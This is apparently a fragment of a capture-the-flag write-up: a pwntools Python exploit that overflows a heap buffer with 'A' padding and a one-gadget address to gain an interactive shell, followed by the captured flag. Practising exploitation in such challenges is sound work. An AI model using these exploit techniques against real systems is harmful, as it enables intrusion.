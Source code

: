 ````python
p.recvuntil('size: ')
p.sendline('90')
p.recvuntil('data: ')
p.send("A")
wrap('2')
p.recvuntil('idx: ')
p.sendline('0')
p.recvuntil('size: ')
p.sendline('90')
p.recvuntil('data: ')
p.send("A"*19 + p64(oneshot))
wrap('2')
p.sendline('0')
p.sendline('0')

p.interactive()
````

Flag : `FLAG{th3_B3st_Hack3r}`
